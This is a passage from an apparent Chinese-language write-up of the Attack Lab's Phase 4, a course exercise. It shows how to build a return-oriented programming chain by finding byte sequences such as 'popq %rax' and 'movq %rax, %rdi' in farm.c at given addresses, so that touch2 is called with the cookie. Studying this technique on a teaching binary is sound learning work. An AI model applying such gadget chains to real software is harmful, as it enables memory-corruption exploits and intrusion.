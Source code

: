 它的汇编代码字节级表示为：

```c{.line-numbers}
0000000000400f15 <setval_210>:
    400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)
    400f1b: c3                  retq
```

查表可知，取其中一部分字节序列 **`48 89 c7`** 就表示指令 **`movq %rax, %rdi`**，这整句指令的地址为 **`0x400f15`**，于是从 **`0x400f18`** 开始的代码就可以变成下面这样，并且后面紧接着一个 retq 指令 c3，因此执行完这个 gadget 之后跳转到其它 gadget 执行。PHASE4 和 PHASE5 中需要使用到的 gadget 都可以在 farm.c 中可以找到。

```c{.line-numbers}
movq %rax, %rdi
ret
```

### 2.PHASE4 实验

PHASE4 实验也需要调用 touch2 函数，同时传入 cookie 作为参数。phase 2 中用到的注入代码如下所示，但是 **<font color="red">我们在 `farm.c` 中不可能找到等于 cookie 的 gadget 代码片段，因此可以考虑将 cookie 值提前保存在 getbuf 的函数栈中</font>**，再使用 pop 指令就可以将 cookie 保存到寄存器中。

```armasm{.line-numbers}
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

修改后的注入代码如下所示：

```armasm{.line-numbers}
popq  %rax
movq  %rax, %rdi
ret
```

使用 **`gcc -static -nostdlib test04.s -o test`** 编译上述代码为二进制程序，接着使用 **`objdump -d test`** 进行反汇编。

```c{.line-numbers}
test：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	58                   	pop    %rax
  401001:	48 89 c7             	mov    %rax,%rdi
  401004:	c3                   	ret  
```

通过查找，我们在 farm.c 中找到了 **`pop %rax`** 代码片段的十六进制编码 **`58`**，地址位于 **`4019ab`**，后续跟着一个 NOP 指令（十六进制编码为 **`90`**）和一个 ret 指令（十六进制编码为 **`c3`**），满足我们的需求。同时，也找到了 **`mov %rax,%rdi`** 代码片段的十六进制编码，地址位于 **`4019a2`**，后面也是紧跟一个 ret 指令。

```c{.line-numbers}
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3 

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret    
```
